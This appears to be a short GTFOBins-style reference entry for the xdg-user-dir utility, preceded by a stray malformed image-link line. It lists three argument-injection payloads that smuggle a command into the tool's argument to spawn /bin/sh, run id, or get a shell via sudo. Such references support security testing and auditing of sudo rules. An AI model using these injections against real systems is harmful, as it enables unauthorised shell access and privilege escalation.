 ```yaml
---
functions:
  shell:
    - code: xdg-user-dir '}; /bin/sh  #'
  command:
    - code: xdg-user-dir '}; id  #'
  sudo:
    - code: sudo xdg-user-dir '}; /bin/sh  #'
---
```

